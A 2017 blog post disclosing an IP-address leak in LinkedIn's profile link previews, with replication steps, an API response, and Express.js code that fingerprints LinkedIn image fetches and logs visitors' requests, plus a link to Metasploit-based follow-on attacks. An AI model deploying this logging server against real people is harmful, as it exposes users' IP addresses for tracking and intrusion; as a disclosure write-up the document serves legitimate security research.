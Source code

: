 ```yaml
---
layout:     post
title:      "IP Address Disclosure Vulnerability in linkedin.com"
date:       2017-11-06 12:00:00
author:     "Mohammed Ali"
category:   web-security
---
```


### Summary
The vulnerability lead to IP disclosure which can preform a harmful actions such as takeover user's machine by using Metasploit framework.

### Replication Steps

##### Step 1:

- Replace `{user-name}` with your user name then go, `https://www.linkedin.com/in/{user-name}/edit/topcard/`.

![You will see something like this](https://a.top4top.net/p_5313qpli1.png)

##### Step 2:
 - Go to media section, Then add a link.
![Step2](https://f.top4top.net/p_531qzh7e1.png)

When `com.linkedin.voyager.feed.urlpreview.PreviewImage` failed in getting preview images will used our link as a `preview-image` in case of this you should avoid any image url in meta-tags.

- Linkedin url preview endpoint
    ```
    https://www.linkedin.com/voyager/api/feed/urlpreview/{URL}
    ```
-----

##### For example:

**When adding `https://a738b3cb.ngrok.io/user`, we got:**

- Response:
    ```json
    {
  "data": {
    "$deletedFields": [],
    "value": {
      "com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful": "0ZVEtnT7kRtbMZxlzyoLnQ==,root,value,com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful"
    },
    "$type": "com.linkedin.voyager.feed.urlpreview.UrlPreviewResponse",
    "$id": "0ZVEtnT7kRtbMZxlzyoLnQ==,root"
  },
  "included": [
    {
      "$deletedFields": [],
      "data": "0ZVEtnT7kRtbMZxlzyoLnQ==,root,value,com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful,data",
      "$type": "com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful",
      "$id": "0ZVEtnT7kRtbMZxlzyoLnQ==,root,value,com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful"
    },
    {
      "urn": "urn:li:article:7726755832606755082",
      "previewImages": [],
      "$deletedFields": [
        "description",
        "update"
      ],
      "resolvedUrl": "https://a738b3cb.ngrok.io/user",
      "source": "a738b3cb.ngrok.io",
      "id": "urn:li:article:7726755832606755082",
      "type": "com.linkedin.voyager.feed.urlpreview.UrlPreviewResponse",
      "title": "The Rock",
      "url": "https://a738b3cb.ngrok.io/user",
      "$type": "com.linkedin.voyager.feed.urlpreview.UrlPreviewData",
      "$id": "0ZVEtnT7kRtbMZxlzyoLnQ==,root,value,com.linkedin.voyager.feed.urlpreview.PreviewCreationSuccessful,data"
    }
  ]
    }
    ```

- If `previewImages` key on the response is an empty array, `com.linkedin.voyager.feed.urlpreview.PreviewImage` will use `resolvedUrl` as a preview image.

    ![preview-image](https://b.top4top.net/p_5353vuvd1.png)


- When a user visit the profile and click on **See more**, The preview image will be loaded in background directly.

    ![loaded in background](https://d.top4top.net/p_535t4f211.png)

- I added a new header tag called `User-Message` (*`yser-Message`* )to request header.

    ![adding new header-tag](https://d.top4top.net/p_535mmqlv1.png)

- I might get the header tag with it contents in logs.

    ![We got the message](https://c.top4top.net/p_535oo7up2.png)

**We've got the flag**

### Attack script/tool
It's an [express.js](https://expressjs.com/) application written in Node.js.

|Author| By me                                                    |
|--------|--------------------------------------------------------|
|Written in| [Node.js](https://nodejs.org/)                       |
|Dependencies|`{"express": "^4.15.3"}`                            |
| Installion| `npm install`                                       |
| Run    | `node start`                                           |


 - We need to check `accept` and `referer` header tag to detect if request was sent from `linkedin.com` or not

    ```javascript
    app.get('/user', function (req, res) {
        if (/image\/(.*)/.test(req.header('accept')) && /linkedin.com/.test(req.header('referer'))) {
            res.sendFile(ourImage);
            storeLogs();
        } else {
            res.sendFile(ourHTMLpage);
        }
         ...
    ```

- If `accept` & `referer` matched, stream the image and store this request payload in `log.json`
- Unless send a html page without any meta-tags that used for image

    ```html
    <html prefix="og: http://ogp.me/ns#">
    <head>
        <title>The Rock (1996)</title>
        <meta property="og:title" content="The Rock" />
        <meta property="og:type" content="video.movie" />
        <meta property="og:url" content="http://www.imdb.com/title/tt0117500/" />
    </head>
    <body>
    </body>
    </html>
    ```
View the full code on my github [repo](https://github.com/xc0d3rz/IP-Address-Disclosure-Vulnerability-in-linkedin.com)


### Exploitability
Since the attacker’s profile is publicly accessible, This vulnerability could affect all users on the given domain because it is publicly visible if the attackers profile is viewed by any other user on the platform. Furthermore, this could be used to perform actions against the victim (or any user visiting that page) and could potentially lead to took over the user’s machine remotely. This could happen by users navigating to the attacker’s profile on their own, or by the attacker somehow persuading the victim to navigate to the profile.

### Impact

Took over a user’s machine would allow an attacker to perform harmful actions.
[A great topic about how to target a public IP with metasploit](https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/).
.

### Proof of concept
Watch the video on https://youtu.be/DNywwox2Lv8, Don't worry it's unlisted video
